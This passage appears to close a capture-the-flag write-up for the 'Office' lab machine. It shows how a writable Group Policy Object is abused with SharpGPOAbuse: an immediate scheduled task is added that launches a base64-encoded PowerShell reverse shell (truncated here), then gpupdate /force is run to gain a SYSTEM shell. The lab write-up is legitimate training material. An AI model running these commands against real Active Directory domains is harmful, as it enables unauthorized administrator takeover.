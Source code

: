 ```markdown
SecurityIdentifier    : S-1-5-21-1199398058-4196589450-691661856-1117
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
[…]
```
To exploit this misconfiguration we will use a tool called SharpGPOAbuse (https://github.com/byronkg/SharpGPOAbuse), so we can modify the GPO and execute any command as administrator. A list of the tool capabilities is available here: https://github.com/FSecureLABS/SharpGPOAbuse.

In this case, we will abuse the GPO to send a base-64 encoded reverse shell under the administrator context. 
```markdown
> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author OFFICE\Administrator --Command "cmd.exe" --Arguments "/c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOA[...]" --GPOName "Default Domain Controllers Policy"

[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] GUID of "Default Domain Controllers Policy" is: {6AC1786C-016F-11D2-945F-00C04fB984F9}
[!] The GPO already includes a ScheduledTasks.xml. Use --Force to append to ScheduledTasks.xml or choose another GPO.
[-] Exiting...
```
The task is added as a new immediate tasks, to force execution just update the GPO policy.
```markdown
> gpupdate /force

Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```
A system reverse shell is received on the listener.

![office Untitled6](https://github.com/g1vi/AllTheWriteUps/assets/120142960/4695d05d-b3f6-46a5-bf43-982624a8b2b7)

You are root.

